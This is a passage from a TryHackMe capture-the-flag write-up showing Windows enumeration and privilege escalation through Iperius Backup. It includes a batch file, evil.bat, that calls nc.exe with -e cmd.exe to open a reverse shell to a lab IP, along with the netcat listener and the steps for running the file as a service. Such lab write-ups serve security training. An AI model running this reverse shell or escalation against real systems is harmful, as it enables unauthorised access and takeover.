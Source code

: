 ```
net users
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e44d79e2-bc54-4d88-b315-1f7f685fde5f)

check the os version

```
systeminfo
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9cfb1373-553c-4480-a9e5-cc910b56c94c)

list all running services

```
wmic service list | findstr "Backup"
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/36879f42-41ac-42c9-9d37-edf56aca59a3)

create a reverse script on desktop as evil.bat

```
@echo off
C:\Users\McSkidy\Downloads\nc.exe 10.10.108.203 1337 -e cmd.exe
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a12bc450-3a3d-4a27-9628-1cb92ad7b2f5)

open Iperius Backup

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b1b4fd9d-2d31-49b0-81a8-1e80fbf66720)

create new backup, you can create any backup and remember to choose destination

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5057942f-b710-492d-b805-942c80065340)

on tab other process, choose run a program or external file, click ok

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e5a22764-e76b-4bdb-b4ae-c3c8fdb718a9)

on our attack machine

```
nc -vlnp 1337
```

run the backup as service

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2527449f-41a3-4ce9-a3f3-3594755c8b5a)

we got our shell

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4e553e22-b7be-4438-89b2-0a22e6fb1bda)

```
cd C:\Users\thegrinch\Documents
type flag.txt
```
